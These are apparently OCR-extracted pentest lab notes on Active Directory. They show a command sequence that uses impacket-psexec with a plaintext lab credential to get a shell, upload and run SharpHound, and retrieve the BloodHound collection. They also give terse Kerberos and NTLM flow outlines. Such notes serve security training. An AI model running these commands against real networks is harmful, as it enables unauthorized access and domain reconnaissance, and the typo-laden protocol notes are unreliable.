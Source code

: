 #### BLOODHOUND USAGE - SCENARIO 2

+ Kali Level Working
```
impacket-psexec 'FRIENDS/rgeller:Password123!@#@192.168.174.129'
lput SharpHound.exe
cd ..
SharpHound.exe
dir
20230106123630_BloodHound.zip
lget 20230106123630_BloodHound.zip
```

## ACTIVE DIRECTORY AUTHENTICATION

### NTLM AUTHENTICATION

### KERBEROS AUTHENTICATION

```
TGS_REQ
TGS_REP	

AP_REQ
AP_REP


 ENC KEY = HASH (USER CREDS)
TGT_REQ
TGT_REP
	session-key1 + TGT       ENC KEY = HASH (KRBTG CREDS)
	
TGS_REQ
TGS_REP
	session-key2 + TGS       ENC KEY = HASH (SERVICE ACCOUNT CREDS)

AP_REQ
AP_REP
```

``` 
TGT_REQ
	ENC KEY = HASH (USER CREDS)
	ENC[timestamp]
TGT_REP
	session-key1 + TGT
	
TGS_REQ
	TGT,SPN, ENC[username,timestamp]
TGS_REP
	SKI[SPN,session-key2] + TGS 

AP_REQ
	TGS, ENC[username,timestamp]
AP_REP
```

